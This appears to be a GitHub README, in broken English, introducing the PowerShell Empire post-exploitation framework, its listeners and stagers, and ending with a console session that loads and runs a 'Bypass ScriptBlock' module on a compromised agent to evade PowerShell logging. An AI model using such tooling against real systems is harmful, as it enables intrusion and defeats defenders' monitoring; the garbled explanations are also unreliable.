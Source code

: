 [![Empire](https://user-images.githubusercontent.com/25440152/29976982-e0831f5a-8f09-11e7-92f7-f5e6772d5e76.png)](https://www.powershellempire.com/)
![powershell_5 0_icon](https://user-images.githubusercontent.com/25440152/29977080-2f28bb24-8f0a-11e7-9e77-d4b792fb9807.png)
![1092296](https://user-images.githubusercontent.com/25440152/29977114-4b7aff30-8f0a-11e7-9972-b4f2139a845f.gif)


### from is Matt Homjxie ? in Empire-powershell 
### I am a developer New In a project Empire-Powershell Thanks Alls
---
![empire_logo_black4](https://user-images.githubusercontent.com/25440152/29976843-713eae34-8f09-11e7-8c4d-d87b79eddcbb.png)

========================================================================||>
========================================================================||>
## --- Here will be displayed All Module Empire-Powershell my !

![wallhaven-205608](https://user-images.githubusercontent.com/25440152/29684174-007ca708-88df-11e7-93d8-14a6523696c3.jpg)

### what is the Empire-post-exploitation ??? 
Speech here does not violate the rights of the tool the Text from Site Tool ::) 
--------
Empire is a pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture. Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework >> 

####################
####################
########################################

### ok !! What is Listener ::) 
------------------
###### Listeners is Listener Empire considered as parallel Handler Metasploit A Have a listening connection Protocol http And http_hop dbx And And And etc ... This connection hangs until it is open Payload From Pc the Target You will receive the goal
------------------
### What Is UseListener ::)
###### useListeners-Empire ? It contains base from Communication protocolsdbx ttp_com http_hop http http_foreign meterpreter And responsible for activation protocols Empire Without them, protocols are not activated
------------------

### What is Name Payloads Empire Stager 
----
###### The number of bytes for unlimited PAyload cannot  or Be small in size Always be very large size like Payloads Meterprter Features of Enlarge Volume Encryption Payload of protections the Windows This is one of the reasons
--------------


### Now note to define some From Module Empire-PN My ::)!
-----------------------------

   ###### Bypass-ScriptBlock.ps1 
   ```
   ================================================================
 [Empire]  Post-Exploitation Framework
================================================================
 [Version] 2.0 | [Web] https://theempire.io
================================================================

   _______ .___  ___. .______    __  .______       _______
  |   ____||   \/   | |   _  \  |  | |   _  \     |   ____|
  |  |__   |  \  /  | |  |_)  | |  | |  |_)  |    |  |__
  |   __|  |  |\/|  | |   ___/  |  | |      /     |   __|
  |  |____ |  |  |  | |  |      |  | |  |\  \----.|  |____
  |_______||__|  |__| | _|      |__| | _| `._____||_______|


       271 modules currently loaded

       1 listeners currently active

       1 agents currently active


(Empire) > interact Homjxi0e
(Homjxi0e) > usemodule management/ScriptBlock
(Empire: powershell/management/ScriptBlock) > set Agent Homjxi0e
(Empire: powershell/management/ScriptBlock) > execute 
             Bypass ScriptBlock completed 
  ```
